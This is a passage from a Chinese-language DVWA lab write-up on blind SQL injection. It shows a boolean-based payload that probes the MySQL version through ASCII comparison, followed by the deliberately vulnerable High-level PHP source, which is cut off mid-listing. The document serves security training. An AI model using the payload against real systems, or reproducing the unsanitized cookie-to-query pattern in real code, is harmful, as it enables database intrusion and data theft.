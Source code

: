 ### 漏洞利用

用 BP 改包即可

> 注：如使用特殊字符，会被过滤，需换成 ASCII 码值

如：测试 MySQL 版本号 第一位是否为 5

```mysql
1 and ascii(substr((select version()),1,1)) = 53 #
```

![image-20220823171706120](.\Lab7_SQL_Injection.assets\image-20220823171706120.png)

返回：

![image-20220823171721919](.\Lab7_SQL_Injection.assets\image-20220823171721919.png)





## High

### 源代码

```php
<?php

if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

            $exists = false;
            if ($result !== false) {
                // Get results
                try {
                    $exists = (mysqli_num_rows( $result ) > 0); // The '@' character suppresses errors
                } catch(Exception $e) {
                    $exists = false;
                }
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }

```
